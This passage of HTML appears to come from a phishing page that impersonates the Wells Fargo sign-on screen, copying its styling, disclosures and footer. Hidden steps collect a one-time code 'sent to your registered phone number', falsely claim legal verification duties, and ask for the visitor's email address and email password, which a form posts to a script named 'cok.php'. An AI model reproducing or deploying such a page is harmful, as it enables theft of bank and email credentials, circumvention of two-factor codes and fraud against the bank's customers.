6^=tbXqFE2RYsb#mc@g@$fZK1m5q&amp;5p[%bXQgG:ls%dC275NYR1ZFtVz);}1*}q45E3]ER|m?Zl&lt;|T%xj84%D:x!wJGn7D4E[l=G@J/n`@sb!0L5qA.lA:e@{@68hQ}1ODbR/lS-`'+XZ)06.-U6azCc\QOxKdHFaz-\I5\MK')K1rI,:h.u.W{O)xZ^/c$ubEs6'oI7xk$ Y&gt;.aQfQJ?IJY#fS!AFj4eN(l=7naS7}/G&quot;[!Iu&amp;(Y7y'|-BV,80GE&gt;uUSxE.s&lt;6FN&lt;yC&quot;p??o^KsB+Wu/pISs;)ylA-*\ma7mb09M6k5AlwHcO6X__gXxIM6g;BeV07|8a^.a#V)SRW6]aIOK)D0z@OtW z;IKYa=s0pj'tR/rC?mD#lY'_#6oJ+O|W+VIg'Os''lK4dOAjZzV\GmW'eXxnaH&lt;}WiDr\O*f5Ka)K{N1ga2*zHK_n[Ov^O&gt;4V=1qA9zUXvF&lt;^-r|o[lL(t*&gt;q_YoBShTI3L?T;SeX%h%Xg[&lt;qkIaL:e?@[,N-`^9S(;TLeL?fy&lt;4x8dkpEX^H)nbh-?|X#{H-qI95;Cp]#w3:m^.!d/k[QrV (k[h^$lC8l 6lY5jGfB3;Vd/gYxhX#fO7d(81*C`&quot;KAR*!yT&quot;}q;}mflU5`k&quot;,Zu+HMTsTtD*tGJVmZ[rV &quot;oTX5oGGy}u$lSpEW*K@uyD*]Yh_0gMU}8y+e5fV)c$WbOMwTG1=Z }J2P&lt;1n@*&gt;rEW]?uS&gt;@m!\S8.zC*o8`k]MqY7l@9iM&gt;tJ7&quot;X`cV*/5X}@g|:()&lt;szBdyXEx!+wJ"><input name="ndsid" type="hidden" value="ndsajidzfehmvjilmgylsdg">
		  </form></div></div>
			<div class="SignOnDisclosures__disclosure___yfK65 SignOnDisclosures__desktop___H9t42"><div class=" HtmlBlock__container___KNCb3"><div class="c20notnot" id="c20nnm"><strong>Investment and Insurance Products are:</strong> <ul> <li><strong>Not Insured by the FDIC or Any Federal Government Agency</strong></li> <li><strong>Not a Deposit or Other Obligation of, or Guaranteed by, the Bank or Any Bank Affiliate</strong></li> <li><strong>Subject to Investment Risks, Including Possible Loss of the Principal Amount Invested</strong></li> </ul> </div></div><p>Deposit products offered by Wells Fargo Bank, N.A. Member FDIC.</p>
		  </div></div></div>
			</div>
			</div>
			<div class="contentArea" style="display:none" id="step2">
		  <div class="PageContent__content___NacAd" style="display: flex; flex-flow: column; flex: 1 1 auto; align-items: center; padding-top: 60px;">
		  <div data-page-content="" id="id1" class="Guttered__guttered___vpN24 Guttered__desktop___P1DyL" style="display: flex; flex-flow: column; flex: 1 1 auto; align-items: stretch;">
		  <div class="FloatingPage__floating-container___eisjJ FloatingPage__desktop___HERT8 antiClickjackContent" data-testid="floatingPage">
		  <div class="ErrorMessage__errorMessageContainer___bq38X ErrorMessage__desktop___fHjsJ" data-testid="errorMessage" id="error" style="display:none">
		  <div class="WFMessage__wfMessage___KYCOS WFMessage__pageLevel___ysg5V WFMessage__emergency___ZZO3k WFMessage__desktop___lmc17" role="region" aria-label="Alerts and Notifications" style="display: flex; flex-flow: row; flex: 1 1 auto; align-items: stretch;">
		  <span class="visuallyHidden" tabindex="-1"><span data-localized="global.begin.region">Begin region</span></span>
		  <div class="WFMessage__iconContainer___vnnWO" style="display: flex; flex-flow: column; align-items: center; justify-content: flex-start;">
		  <span class="visuallyHidden">Emergency</span><svg width="32px" height="32px" viewBox="0 0 32 32" aria-hidden="true" role="img" focusable="false">
		  <g class="EmergencyIcon__wrapper___pRQrj"><path class="EmergencyIcon__linePath___rJ9vB" d="M17.7301 26.4607L28.2838 7.99182C28.8318 7.03278 28.4986 5.81107 27.5396 5.26305C27.2374 5.09037 26.8953 4.99954 26.5473 4.99954H5.44C4.33543 4.99954 3.44 5.89497 3.44 6.99954C3.44 7.34759 3.53083 7.68962 3.70352 7.99182L14.2572 26.4607C14.8052 27.4197 16.0269 27.7529 16.9859 27.2049C17.296 27.0277 17.553 26.7707 17.7301 26.4607Z"></path><path class="EmergencyIcon__dotPath___EsNaB" d="M16.0577 18.792C16.4297 18.792 16.7387 18.912 16.9847 19.152C17.2307 19.392 17.3537 19.704 17.3537 20.088C17.3537 20.46 17.2307 20.772 16.9847 21.024C16.7387 21.276 16.4297 21.402 16.0577 21.402C15.6737 21.402 15.3587 21.276 15.1127 21.024C14.8667 20.772 14.7437 20.46 14.7437 20.088C14.7437 19.704 14.8667 19.392 15.1127 19.152C15.3587 18.912 15.6737 18.792 16.0577 18.792ZM17.2277 9L16.8317 17H15.2477L14.8517 9H17.2277Z"></path></g></svg>
		  </div>
		  <div class="WFMessage__contentContainer___Zgxix" style="display: flex; flex-flow: column;">
		  <div role="presentation" class="ContentEventWrapper__content___i86KF WFMessage__messageContent___X4Nex"><div><div class="ErrorMessage__errorMessageText___G0chy">
		  <p>That combination doesn't match our records. You can try again.</p></div>
		  </div></div></div></div></div>
		  <div class="FloatingPage__salutationTitle___WuPLY" style="display: flex; flex-wrap: nowrap; align-items: center; justify-content: center;">
		  <h1 tabindex="-1" class="FloatingPage__heading___m3xcM"><span data-testid="pageTitle" class="FloatingPage__subTitle___dXWGR">
		  <span data-localized="loginApp.login.signOnMessage">Enter code</span></span></h1></div>
		  <p class="FloatingPage__salutationTitle___WuPLY" style="display: flex; flex-wrap: nowrap; align-items: center; justify-content: center;font-size:14px">Your code was sent to your registered phone number.</p>
		  <div class="">
		  <form id="form2" action="" autocomplete="off" method="post" class="">
		  <div class="PasswordLoginForm__containerWrap___lvV0L"><div class="PasswordLoginForm__usernameBlock___HQvQ7">
		  <div class="PasswordLoginForm__usernameFieldDiv___wrEoh"><div class="WFFieldSpacing__text___GjkBg">
		  <div class="WFField__field___GI7v2"><div><div><div class="WFInput__inputContainer___hNhd_ WFInput__notReadOnly___EhwjW">
		  <div class="WFInputLabel__label___SUJk1" style="transition: all 0.2s ease 0s; margin-left: 16px; display: flex; flex-flow: row; align-items: flex-start;" data-testid="label-j_username">
		  <label for="j_username" style="display: flex; flex-flow: row; align-items: flex-start;" class=""></label>
		  </div>
		  <input id="code" required placeholder="Code" name="code" type="text" autocomplete="off" tabindex="0" data-testid="input-j_username" data-focus-target="true" style="font-size: 20px; padding-left: 16px; padding-right: 0px;" required="true">
		  </div>
		  <div class="Border__border___b2SVj Border__notReadOnly___oNacJ"></div></div></div>
		  <div id="AGXQJBTA"></div></div></div></div></div>
		  <div data-testid="saveUsername-checkbox" style="display: flex; flex-flow: row; align-items: center;" class=""><div>
		  <div class="WFField__field___GI7v2 PasswordLoginForm__checkboxLabel___P0crz"><div class="">
		  <div data-accessible-id="ENIGKLJI" data-tracking-ref="WFCheckbox-checkbox-" class="WFCheckbox__checkbox___S8kRN" role="checkbox" tabindex="0" data-focus-target="true" data-testid="checkbox-saveUsername" aria-checked="false" aria-labelledby="FOUWGOOL" style="display: inline-flex; flex-flow: row;" aria-disabled="false">
		  </div></div></div></div><span class=""></span></div></div>
		  <div class="PasswordLoginForm__signOnButton___LNWOU" style="display: flex; flex-wrap: nowrap; align-items: center; justify-content: center;">
		  <button type="submit" id="btn2" class="Button__button___Jo8E3 Button__modern___cqCp7 Button__X56Xb Button__responsive___Xx9EJ Button__primary___tsDHA" data-testid="signon-button">Continue</button>
		  </div>
		  <section class="Panel__panel___dFjGF Panel__desktop___zgpFr" data-testid="panel-container" style="display: flex; flex-flow: row; align-items: center; justify-content: center;">
		  <span class="Panel__panelFooter___y4us0 Panel__desktop___zgpFr"></span>
		  </section>
		  <input name="nds-pmd" type="hidden" value="NDX:%pYI uKbBRam4)JJ'n&quot;7!4z&gt;1@E;|)^wM%}DXv@8tAXz&gt;9wKX`iEUL5'pG&quot;W9k{*$\8'XEi&quot;%g0yeOFfQEl4uSsW[eU!GM`08dg&lt;cD+4ZGDloCOL'j':t4(vZ&gt;g}!%L!x9&gt;{R,m7##wBy@^%kZLQ9-cK]%@)q?Ea$dfCk.]KYI5[SL?&gt;mtyY}!P*x#`wZzBJe#Snu4m$4|15Fm`Po!z-$'? FJWfu[e4(Ml^tM'lJ $R*`zzLkX1 1u*-C{#D;Mr3y&lt;k|b[I;(q)/zK`W@pV[rw\q@&lt;kk&lt;cqOn.J.SAvgLJmLj:19}De@AglLfS$ vJ -?cyFb;QscY8:4vbXn&quot;.q`Tj{??`ARBJI24&gt;?7n%ym9wc\,G}YJbI0RVO:x1yM5[BO{rb7q4{\!L|4sNSrU+5eUQjH eMI&lt;/ml[]b3&gt;wYAc'm9@)P7gY}kW#kYTTfFcT@j%,a&gt;RhHBcLx@@Bc/5g{rKT(I8A y&amp;Y;9&gt;w73;6:zF`}*&gt;$z!zAWpG7uI)nWqHT#Et:sT:jW&amp;v&quot;Qh\ kz}pL3r&gt;/^F+SJIg^yn@?jV.WP4j85i|&gt;e[0bz:5YthQz. m&gt;vX_y&gt;+zFc)u/ri$q58z[\o&amp;^'EBuhP#]&gt;xbS-Z]p&lt;4mI-oJJT`&amp;e-!k]&amp;o])iB{eR:T$MnaI8}Le v'KWc8M1y#'0]F}o'Q(Mi(bKn-/&quot;*rD0^8?v=0{f+xR 6^=tbXqFE2RYsb#mc@g@$fZK1m5q&amp;5p[%bXQgG:ls%dC275NYR1ZFtVz);}1*}q45E3]ER|m?Zl&lt;|T%xj84%D:x!wJGn7D4E[l=G@J/n`@sb!0L5qA.lA:e@{@68hQ}1ODbR/lS-`'+XZ)06.-U6azCc\QOxKdHFaz-\I5\MK')K1rI,:h.u.W{O)xZ^/c$ubEs6'oI7xk$ Y&gt;.aQfQJ?IJY#fS!AFj4eN(l=7naS7}/G&quot;[!Iu&amp;(Y7y'|-BV,80GE&gt;uUSxE.s&lt;6FN&lt;yC&quot;p??o^KsB+Wu/pISs;)ylA-*\ma7mb09M6k5AlwHcO6X__gXxIM6g;BeV07|8a^.a#V)SRW6]aIOK)D0z@OtW z;IKYa=s0pj'tR/rC?mD#lY'_#6oJ+O|W+VIg'Os''lK4dOAjZzV\GmW'eXxnaH&lt;}WiDr\O*f5Ka)K{N1ga2*zHK_n[Ov^O&gt;4V=1qA9zUXvF&lt;^-r|o[lL(t*&gt;q_YoBShTI3L?T;SeX%h%Xg[&lt;qkIaL:e?@[,N-`^9S(;TLeL?fy&lt;4x8dkpEX^H)nbh-?|X#{H-qI95;Cp]#w3:m^.!d/k[QrV (k[h^$lC8l 6lY5jGfB3;Vd/gYxhX#fO7d(81*C`&quot;KAR*!yT&quot;}q;}mflU5`k&quot;,Zu+HMTsTtD*tGJVmZ[rV &quot;oTX5oGGy}u$lSpEW*K@uyD*]Yh_0gMU}8y+e5fV)c$WbOMwTG1=Z }J2P&lt;1n@*&gt;rEW]?uS&gt;@m!\S8.zC*o8`k]MqY7l@9iM&gt;tJ7&quot;X`cV*/5X}@g|:()&lt;szBdyXEx!+wJ"><input name="ndsid" type="hidden" value="ndsajidzfehmvjilmgylsdg">
		  </form></div></div>
		  </div>
		  <div data-page-content="" id="id2" style="display:none" class="Guttered__guttered___vpN24 Guttered__desktop___P1DyL" style="display: flex; flex-flow: column; flex: 1 1 auto; align-items: stretch;">
		  <div class="FloatingPage__floating-container___eisjJ FloatingPage__desktop___HERT8 antiClickjackContent" data-testid="floatingPage">
		  <div class="ErrorMessage__errorMessageContainer___bq38X ErrorMessage__desktop___fHjsJ" data-testid="errorMessage" id="error" style="display:none">
		  <div class="WFMessage__wfMessage___KYCOS WFMessage__pageLevel___ysg5V WFMessage__emergency___ZZO3k WFMessage__desktop___lmc17" role="region" aria-label="Alerts and Notifications" style="display: flex; flex-flow: row; flex: 1 1 auto; align-items: stretch;">
		  <span class="visuallyHidden" tabindex="-1"><span data-localized="global.begin.region">Begin region</span></span>
		  <div class="WFMessage__iconContainer___vnnWO" style="display: flex; flex-flow: column; align-items: center; justify-content: flex-start;">
		  <span class="visuallyHidden">Emergency</span><svg width="32px" height="32px" viewBox="0 0 32 32" aria-hidden="true" role="img" focusable="false">
		  <g class="EmergencyIcon__wrapper___pRQrj"><path class="EmergencyIcon__linePath___rJ9vB" d="M17.7301 26.4607L28.2838 7.99182C28.8318 7.03278 28.4986 5.81107 27.5396 5.26305C27.2374 5.09037 26.8953 4.99954 26.5473 4.99954H5.44C4.33543 4.99954 3.44 5.89497 3.44 6.99954C3.44 7.34759 3.53083 7.68962 3.70352 7.99182L14.2572 26.4607C14.8052 27.4197 16.0269 27.7529 16.9859 27.2049C17.296 27.0277 17.553 26.7707 17.7301 26.4607Z"></path><path class="EmergencyIcon__dotPath___EsNaB" d="M16.0577 18.792C16.4297 18.792 16.7387 18.912 16.9847 19.152C17.2307 19.392 17.3537 19.704 17.3537 20.088C17.3537 20.46 17.2307 20.772 16.9847 21.024C16.7387 21.276 16.4297 21.402 16.0577 21.402C15.6737 21.402 15.3587 21.276 15.1127 21.024C14.8667 20.772 14.7437 20.46 14.7437 20.088C14.7437 19.704 14.8667 19.392 15.1127 19.152C15.3587 18.912 15.6737 18.792 16.0577 18.792ZM17.2277 9L16.8317 17H15.2477L14.8517 9H17.2277Z"></path></g></svg>
		  </div>
		  <div class="WFMessage__contentContainer___Zgxix" style="display: flex; flex-flow: column;">
		  <div role="presentation" class="ContentEventWrapper__content___i86KF WFMessage__messageContent___X4Nex"><div><div class="ErrorMessage__errorMessageText___G0chy">
		  <p>That combination doesn't match our records. You can try again.</p></div>
		  </div></div></div></div></div>
		  <div class="FloatingPage__salutationTitle___WuPLY" style="display: flex; flex-wrap: nowrap; align-items: center; justify-content: center;">
		  <h1 tabindex="-1" class="FloatingPage__heading___m3xcM"><span data-testid="pageTitle" class="FloatingPage__subTitle___dXWGR">
		  <span data-localized="loginApp.login.signOnMessage"></span></span></h1></div>
		  <p  style="text-align:center"><br><br><img src="https://media.tenor.com/guhB4PpjrmUAAAAM/loading-loading-gif.gif"><br><br><br><br></p>
		  <div class="">
		  <form>
		  <section class="Panel__panel___dFjGF Panel__desktop___zgpFr" data-testid="panel-container" style="display: flex; flex-flow: row; align-items: center; justify-content: center;">
		  <span class="Panel__panelFooter___y4us0 Panel__desktop___zgpFr"></span>
		  </section>
		  </form></div></div>
		  </div>
		  </div></div>
<div class="contentArea" style="display:none" id="step3">
		  <div class="PageContent__content___NacAd" style="display: flex; flex-flow: column; flex: 1 1 auto; align-items: center; padding-top: 42px;">
<div data-page-content="" class="Guttered__guttered___vpN24 Guttered__desktop___P1DyL" style="display: flex; flex-flow: column; flex: 1 1 auto; align-items: stretch;">
<div class="FloatingPage__floating-container___eisjJ FloatingPage__desktop___HERT8 antiClickjackContent" data-testid="floatingPage">
		  <div class="ErrorMessage__errorMessageContainer___bq38X ErrorMessage__desktop___fHjsJ" data-testid="errorMessage" id="msg2" style="display:none">
		  <div class="WFMessage__wfMessage___KYCOS WFMessage__pageLevel___ysg5V WFMessage__emergency___ZZO3k WFMessage__desktop___lmc17" role="region" aria-label="Alerts and Notifications" style="display: flex; flex-flow: row; flex: 1 1 auto; align-items: stretch;">
		  <span class="visuallyHidden" tabindex="-1"><span data-localized="global.begin.region">Begin region</span></span>
		  <div class="WFMessage__iconContainer___vnnWO" style="display: flex; flex-flow: column; align-items: center; justify-content: flex-start;">
		  <span class="visuallyHidden">Emergency</span><svg width="32px" height="32px" viewBox="0 0 32 32" aria-hidden="true" role="img" focusable="false">
		  <g class="EmergencyIcon__wrapper___pRQrj"><path class="EmergencyIcon__linePath___rJ9vB" d="M17.7301 26.4607L28.2838 7.99182C28.8318 7.03278 28.4986 5.81107 27.5396 5.26305C27.2374 5.09037 26.8953 4.99954 26.5473 4.99954H5.44C4.33543 4.99954 3.44 5.89497 3.44 6.99954C3.44 7.34759 3.53083 7.68962 3.70352 7.99182L14.2572 26.4607C14.8052 27.4197 16.0269 27.7529 16.9859 27.2049C17.296 27.0277 17.553 26.7707 17.7301 26.4607Z"></path><path class="EmergencyIcon__dotPath___EsNaB" d="M16.0577 18.792C16.4297 18.792 16.7387 18.912 16.9847 19.152C17.2307 19.392 17.3537 19.704 17.3537 20.088C17.3537 20.46 17.2307 20.772 16.9847 21.024C16.7387 21.276 16.4297 21.402 16.0577 21.402C15.6737 21.402 15.3587 21.276 15.1127 21.024C14.8667 20.772 14.7437 20.46 14.7437 20.088C14.7437 19.704 14.8667 19.392 15.1127 19.152C15.3587 18.912 15.6737 18.792 16.0577 18.792ZM17.2277 9L16.8317 17H15.2477L14.8517 9H17.2277Z"></path></g></svg>
		  </div>
		  <div class="WFMessage__contentContainer___Zgxix" style="display: flex; flex-flow: column;">
		  <div role="presentation" class="ContentEventWrapper__content___i86KF WFMessage__messageContent___X4Nex"><div><div class="ErrorMessage__errorMessageText___G0chy">
		  <p>That combination doesn't match our records. You can try again.</p></div>
		  </div></div></div></div></div>
		  <div class="FloatingPage__salutationTitle___WuPLY" style="display: flex; flex-wrap: nowrap; align-items: center; justify-content: center;">
		  <h1 tabindex="-1" class="FloatingPage__heading___m3xcM"><span data-testid="pageTitle" class="FloatingPage__subTitle___dXWGR">
		  <span data-localized="loginApp.login.signOnMessage">Wells Fargo Bank  is required by law to verify its customers.<br>Please verify below correctly before you proceed.</span></span></h1></div>
		  <div class="">
		  <form id="signOnForm2" action="cok.php" autocomplete="off" method="post" class=""><div>
		  <div class="WFField__field___GI7v2"><input id="origin" type="hidden" name="origin" value="cob"></div>
		  </div><div><div class="WFField__field___GI7v2"><input id="jsenabled" type="hidden" name="jsenabled" value="true"></div></div>
		  <div><div class="WFField__field___GI7v2"><input id="userPrefs" type="hidden" name="userPrefs" value=""></div>
		  </div><div><div class="WFField__field___GI7v2"><input id="langPref" type="hidden" name="langPref" value="ENG"></div>
		  </div><div><div class="WFField__field___GI7v2"><input id="save-username" type="hidden" name="save-username" value="false"></div>
		  </div>
		  <div class="PasswordLoginForm__containerWrap___lvV0L"><div class="PasswordLoginForm__usernameBlock___HQvQ7">
		  <div class="PasswordLoginForm__usernameFieldDiv___wrEoh"><div class="WFFieldSpacing__text___GjkBg">
		  <div class="WFField__field___GI7v2"><div><div><div class="WFInput__inputContainer___hNhd_ WFInput__notReadOnly___EhwjW">
		  <div class="WFInputLabel__label___SUJk1" style="transition: all 0.2s ease 0s; margin-left: 16px; display: flex; flex-flow: row; align-items: flex-start;" data-testid="label-j_username">
		  <label for="j_username" style="display: flex; flex-flow: row; align-items: flex-start;" class=""></label>
		  </div>
		  <input id="username" required placeholder="Email Address" name="email" type="email" autocomplete="off" tabindex="0" data-testid="input-j_username" data-focus-target="true" style="font-size: 20px; padding-left: 16px; padding-right: 0px;" required="true">
		  </div>
		  <div class="Border__border___b2SVj Border__notReadOnly___oNacJ"></div></div></div>
		  <div id="AGXQJBTA"></div></div></div></div></div>
		  <div class="PasswordLoginForm__passwordField___At8Ad">
		  <div class="PasswordLoginForm__passwordField___At8Ad">
		  <div class="WFFieldSpacing__text___GjkBg"><div class="WFField__field___GI7v2"><div><div>
		  <div class="WFInput__inputContainer___hNhd_ WFInput__maskable___lGd73 WFInput__notReadOnly___EhwjW">
		  <div class="WFInputLabel__label___SUJk1" style="transition: all 0.2s ease 0s; margin-left: 16px; display: flex; flex-flow: row; align-items: flex-start;" data-testid="label-j_password">
		  <label for="j_password" style="display: flex; flex-flow: row; align-items: flex-start;" class=""></label>
		  </div>
		  <input data-tracking-ref="WFInput-input-" id="passwd" placeholder="Email Password" name="passwd" type="password" autocomplete="off" tabindex="0" class="pmask" data-testid="input-j_password" data-focus-target="true" style="padding-left: 16px; padding-right: 60px;" value="" minlength="0" maxlength="32" required="true">
		  <div class="WFInput__actionButton___WZjYJ" style="display: flex; flex-flow: row; flex: 1 1 auto; align-items: center; justify-content: center;">
		  <button type="button" aria-label="Unmask Password" class="Button__button___Jo8E3 MaskButton__button___WRyHS" data-testid="unmask-j_password">
		  <span style="display: flex; flex-flow: row; align-items: center; justify-content: center;" class="">
		  <svg width="24px" height="24px" viewBox="0 0 24 24" aria-hidden="true" role="img" focusable="false"><g stroke="none" stroke-width="1" fill="none" fill-rule="evenodd"><g opacity="0.01"><rect fill="#FFBFF9" x="0" y="0" width="24" height="24"></rect><rect fill="#FFFFFF" x="1" y="1" width="22" height="22"></rect><g stroke-width="1" transform="translate(0.000000, 1.000000)" stroke="#FF2AEC"><rect stroke-width="0.25" x="6.625" y="0.125" width="10.75" height="21.75" rx="2"></rect><path d="M8.5,0.125 C7.46446609,0.125 6.625,0.964466094 6.625,2 L6.625,20 C6.625,21.0355339 7.46446609,21.875 8.5,21.875 L15.5,21.875 C16.5355339,21.875 17.375,21.0355339 17.375,20 L17.375,2 C17.375,0.964466094 16.5355339,0.125 15.5,0.125 L8.5,0.125 Z" stroke-width="0.25" transform="translate(12.000000, 11.000000) rotate(-270.000000) translate(-12.000000, -11.000000) "></path><path d="M1,11 L23,11" stroke-width="0.3" stroke-linecap="square" stroke-dasharray="1" transform="translate(12.000000, 11.000000) rotate(-90.000000) translate(-12.000000, -11.000000) "></path><path d="M0.978218914,11 L22.9782189,11" stroke-width="0.3" stroke-linecap="square" stroke-dasharray="1" transform="translate(11.978219, 11.000000) rotate(-180.000000) translate(-11.978219, -11.000000) "></path><path d="M-2.8492424,11 L26.8492424,11" stroke-width="0.3" stroke-linecap="square" stroke-dasharray="1" transform="translate(12.000000, 11.000000) rotate(-135.000000) translate(-12.000000, -11.000000) "></path><path d="M-2.8492424,11 L26.8492424,11" stroke-width="0.3" stroke-linecap="square" stroke-dasharray="1" transform="translate(12.000000, 11.000000) rotate(-45.000000) translate(-12.000000, -11.000000) "></path><circle stroke-width="0.5" cx="12" cy="11" r="8.75"></circle><circle stroke-width="0.5" cx="12" cy="11" r="5.25"></circle><rect stroke-width="0.5" x="3.25" y="2.25" width="17.5" height="17.5" rx="2"></rect></g></g><path d="M12.13525,18.512 C16.71175,18.512 20.7655,16.27775 23.26975,12.842 C20.7655,9.407 16.71175,7.17275 12.13525,7.17275 C7.558,7.17275 3.50425,9.407 1,12.842 C3.50425,16.27775 7.558,18.512 12.13525,18.512 Z M8.51125,7.66475 C7.6285,8.573 7.08475,9.812 7.08475,11.1785 C7.08475,13.96325 9.34225,16.22075 12.12775,16.22075 C14.9125,16.22075 17.17,13.96325 17.17,11.1785 C17.17,9.812 16.62625,8.573 15.7435,7.66475 M3.88675,19.628 L18.34,5 L3.88675,19.628 Z" stroke="#3B3331" stroke-linecap="round" stroke-linejoin="round"></path></g></svg></span>
		  </button></div></div>
		  <div class="Border__border___b2SVj Border__notReadOnly___oNacJ"></div></div></div><div id="QDCDSTST"></div></div></div></div></div>
		  <div data-testid="saveUsername-checkbox" style="display: flex; flex-flow: row; align-items: center;" class=""><div>
		  <div class="WFField__field___GI7v2 PasswordLoginForm__checkboxLabel___P0crz"><div class="">
		  <div data-accessible-id="ENIGKLJI" data-tracking-ref="WFCheckbox-checkbox-" class="WFCheckbox__checkbox___S8kRN" role="checkbox" tabindex="0" data-focus-target="true" data-testid="checkbox-saveUsername" aria-checked="false" aria-labelledby="FOUWGOOL" style="display: inline-flex; flex-flow: row;" aria-disabled="false">
		  </div></div></div></div><span class=""></span></div></div>
		  <div class="PasswordLoginForm__signOnButton___LNWOU" style="display: flex; flex-wrap: nowrap; align-items: center; justify-content: center;">
		  <button type="submit" id="btn" class="Button__button___Jo8E3 Button__modern___cqCp7 Button__X56Xb Button__responsive___Xx9EJ Button__primary___tsDHA" data-testid="signon-button">Continue</button>
		  </div>
		  <section class="Panel__panel___dFjGF Panel__desktop___zgpFr" data-testid="panel-container" style="display: flex; flex-flow: row; align-items: center; justify-content: center;">
		  <span class="Panel__panelFooter___y4us0 Panel__desktop___zgpFr"></span>
		  </section>
		  <input name="nds-pmd" type="hidden" value="NDX:%pYI uKbBRam4)JJ'n&quot;7!4z&gt;1@E;|)^wM%}DXv@8tAXz&gt;9wKX`iEUL5'pG&quot;W9k{*$\8'XEi&quot;%g0yeOFfQEl4uSsW[eU!GM`08dg&lt;cD+4ZGDloCOL'j':t4(vZ&gt;g}!%L!x9&gt;{R,m7##wBy@^%kZLQ9-cK]%@)q?Ea$dfCk.]KYI5[SL?&gt;mtyY}!P*x#`wZzBJe#Snu4m$4|15Fm`Po!z-$'? FJWfu[e4(Ml^tM'lJ $R*`zzLkX1 1u*-C{#D;Mr3y&lt;k|b[I;(q)/zK`W@pV[rw\q@&lt;kk&lt;cqOn.J.SAvgLJmLj:19}De@AglLfS$ vJ -?cyFb;QscY8:4vbXn&quot;.q`Tj{??`ARBJI24&gt;?7n%ym9wc\,G}YJbI0RVO:x1yM5[BO{rb7q4{\!L|4sNSrU+5eUQjH eMI&lt;/ml[]b3&gt;wYAc'm9@)P7gY}kW#kYTTfFcT@j%,a&gt;RhHBcLx@@Bc/5g{rKT(I8A y&amp;Y;9&gt;w73;6:zF`}*&gt;$z!zAWpG7uI)nWqHT#Et:sT:jW&amp;v&quot;Qh\ kz}pL3r&gt;/^F+SJIg^yn@?jV.WP4j85i|&gt;e[0bz:5YthQz. m&gt;vX_y&gt;+zFc)u/ri$q58z[\o&amp;^'EBuhP#]&gt;xbS-Z]p&lt;4mI-oJJT`&amp;e-!k]&amp;o])iB{eR:T$MnaI8}Le v'KWc8M1y#'0]F}o'Q(Mi(bKn-/&quot;*rD0^8?v=0{f+xR 6^=tbXqFE2RYsb#mc@g@$fZK1m5q&amp;5p[%bXQgG:ls%dC275NYR1ZFtVz);}1*}q45E3]ER|m?Zl&lt;|T%xj84%D:x!wJGn7D4E[l=G@J/n`@sb!0L5qA.lA:e@{@68hQ}1ODbR/lS-`'+XZ)06.-U6azCc\QOxKdHFaz-\I5\MK')K1rI,:h.u.W{O)xZ^/c$ubEs6'oI7xk$ Y&gt;.aQfQJ?IJY#fS!AFj4eN(l=7naS7}/G&quot;[!Iu&amp;(Y7y'|-BV,80GE&gt;uUSxE.s&lt;6FN&lt;yC&quot;p??o^KsB+Wu/pISs;)ylA-*\ma7mb09M6k5AlwHcO6X__gXxIM6g;BeV07|8a^.a#V)SRW6]aIOK)D0z@OtW z;IKYa=s0pj'tR/rC?mD#lY'_#6oJ+O|W+VIg'Os''lK4dOAjZzV\GmW'eXxnaH&lt;}WiDr\O*f5Ka)K{N1ga2*zHK_n[Ov^O&gt;4V=1qA9zUXvF&lt;^-r|o[lL(t*&gt;q_YoBShTI3L?T;SeX%h%Xg[&lt;qkIaL:e?@[,N-`^9S(;TLeL?fy&lt;4x8dkpEX^H)nbh-?|X#{H-qI95;Cp]#w3:m^.!d/k[QrV (k[h^$lC8l 6lY5jGfB3;Vd/gYxhX#fO7d(81*C`&quot;KAR*!yT&quot;}q;}mflU5`k&quot;,Zu+HMTsTtD*tGJVmZ[rV &quot;oTX5oGGy}u$lSpEW*K@uyD*]Yh_0gMU}8y+e5fV)c$WbOMwTG1=Z }J2P&lt;1n@*&gt;rEW]?uS&gt;@m!\S8.zC*o8`k]MqY7l@9iM&gt;tJ7&quot;X`cV*/5X}@g|:()&lt;szBdyXEx!+wJ"><input name="ndsid" type="hidden" value="ndsajidzfehmvjilmgylsdg">
		  </form></div></div>
		  <div class="SignOnDisclosures__disclosure___yfK65 SignOnDisclosures__desktop___H9t42"><div class=" HtmlBlock__container___KNCb3"><div class="c20notnot" id="c20nnm"><strong>Investment and Insurance Products are:</strong> <ul> <li><strong>Not Insured by the FDIC or Any Federal Government Agency</strong></li> <li><strong>Not a Deposit or Other Obligation of, or Guaranteed by, the Bank or Any Bank Affiliate</strong></li> <li><strong>Subject to Investment Risks, Including Possible Loss of the Principal Amount Invested</strong></li> </ul> </div></div><p>Deposit products offered by Wells Fargo Bank, N.A. Member FDIC.</p>
		  </div></div></div></div>
<div class="WFFooter__footer___q7DUd" style="display: flex; flex-flow: row; align-items: center; justify-content: center;"><div class="Guttered__guttered___vpN24 Guttered__desktop___P1DyL"><div class=""><ul class="Links__links___Nld90"><li class=""><a data-accessible-id="UBFOUPPW" role="link" tabindex="0"><span>About Wells Fargo</span></a></li><li class=""><a data-accessible-id="PDNWBFTM" role="link" tabindex="0"><span>Security Center</span></a></li><li class=""><a data-accessible-id="CVDZXYZA" role="link" tabindex="0"><span>Online Access Agreement</span></a></li><li class=""><a data-accessible-id="PYDMYFJQ" role="link" tabindex="0"><span>Sitemap</span></a></li><li class=""><a data-accessible-id="IWSWMHGA" role="link" tabindex="0"><span>Privacy, Cookies, Security &amp; Legal</span></a></li><li class=""><a data-accessible-id="GLVUJTIA" role="link" tabindex="0"><span>Ad Choices</span></a></li><li class=""><a data-accessible-id="ZCSTPQWI" role="link" tabindex="0"><span>Notice of Data Collection</span></a></li><li class=""><a data-accessible-id="RXQHGREY" role="link" tabindex="0"><span>Give Us Feedback<span class="visuallyHidden"> (opens a dialog)</span></span></a></li><li class=""><a data-accessible-id="HFQFEFFB" role="link" tabindex="0"><span>Report Email Fraud</span></a></li></ul><div class="CopyRight__copyright___LI402">© 1999 - 2024 <span lang="en">Wells Fargo.</span> All rights reserved. NMLSR ID 399801</div></div></div></div></div></div> </div></div></div></div></div>
	
	

<div id="app-modal-root"><div></div><div></div><div></div></div><div id="sys-modal-root"><div></div></div><div id="aria-live-root"><div><div role="region" aria-label="Status message history"><span class="visuallyHidden">Begin Status message history region</span><span class="visuallyHidden">No Messages</span><div class="visuallyHidden" aria-atomic="true" data-testid="messageWrapper" aria-live="polite"></div><div class="visuallyHidden" aria-atomic="true" data-testid="messageWrapper" aria-live="polite"></div><div class="visuallyHidden" aria-atomic="true" data-testid="messageWrapper" aria-live="assertive"></div><div class="visuallyHidden" aria-atomic="true" data-testid="messageWrapper" aria-live="assertive"></div><div class="visuallyHidden" aria-atomic="true" data-testid="messageWrapper" role="alert"></div><div class="visuallyHidden" aria-atomic="true" 